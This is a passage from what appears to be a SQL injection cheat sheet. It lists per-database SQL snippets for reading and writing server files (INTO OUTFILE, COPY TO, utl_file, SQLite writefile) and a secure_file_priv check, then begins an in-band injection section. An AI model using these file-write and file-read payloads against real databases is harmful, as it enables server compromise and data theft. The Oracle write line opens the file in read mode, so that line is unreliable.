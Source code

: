 ### Oracle	
```sql
utl_file.get_line(utl_file.fopen('/path/to/','file','R'), <buffer>)
```

### SQLite	
```sql
readfile('/path/to/file')
```

## Write
### MySQL
There are hundreds of global variables in a MySQL configuration, and we don't want to retrieve all of them. We will then filter the results to only show the secure_file_priv variable.
If secure_file_priv value is empty, meaning that we can read/write files to any location.

```sql
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
```

```sql
SELECT 'contents' INTO OUTFILE '/path/to/file'
```

### PostgreSQL
```sql
COPY (SELECT 'contents') TO '/path/to/file'
```

### MSSQL
```sql
execute spWriteStringToFile 'contents', 'C:\path\to\', 'file'
```

### Oracle
```sql
utl_file.put_line(utl_file.fopen('/path/to/','file','R'), <buffer>)
```

### SQLite	
```sql
SELECT writefile('/path/to/file', column_name) FROM table_name
```

* * *

# In-Band 
In simple cases, the output of both the intended and the new query may be printed directly on the front end, and we can directly read it. This is known as In-band SQL injection, and it has two types: Union Based and Error Based.
